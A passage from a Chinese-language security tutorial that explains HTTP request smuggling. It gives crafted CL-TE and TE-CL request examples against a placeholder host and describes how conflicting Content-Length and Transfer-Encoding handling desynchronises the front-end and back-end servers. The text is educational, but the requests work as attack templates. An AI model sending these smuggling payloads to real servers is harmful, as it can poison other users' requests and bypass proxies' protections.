 **构造请求示例**：

```
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
a
```

连续发送几次请求就可以获得响应。
**攻击流程**：
由于前端服务器处理`Content-Length`，所以这个请求对于它来说是一个完整的请求，请求体的长度为6，也就是

```
0\r\n
\r\n
a
```

当请求包经过代理服务器转发给后端服务器时，后端服务器处理`Transfer-Encoding`，当它读取到

```
0\r\n
\r\n
```

认为已经读取到结尾了。
但剩下的字母`a`就被留在了缓冲区中，等待下一次请求。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求：

```
aPOST / HTTP/1.1\r\n
Host: test.com\r\n
......
```

服务器在解析时就会产生报错了，从而造成HTTP请求走私。

#### TE-CL

TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理`Transfer-Encoding`请求头，后端服务器处理`Content-Length`请求头。
**构造请求示例**：

```
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```
